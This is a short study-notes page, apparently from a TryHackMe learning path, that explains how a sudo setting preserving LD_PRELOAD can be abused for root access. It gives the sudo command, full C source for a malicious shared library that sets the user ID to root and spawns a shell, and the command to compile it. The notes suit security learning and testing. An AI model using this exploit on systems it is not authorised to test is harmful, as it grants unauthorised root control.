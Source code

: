 # Exploiting LD_PRELOAD

If LD_PRELOAD is preserved by sudo, then it’s possible to use a malicious dynamic library to gain root access — just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. [Preserved environment variables are listed by `sudo -l`.](enumerate-sudo-access.md)

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles -o /path/to/malicious.so /path/to/malicious.c
```

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)

- - - -

👤 Nathan Acks
📅 October 31, 2021
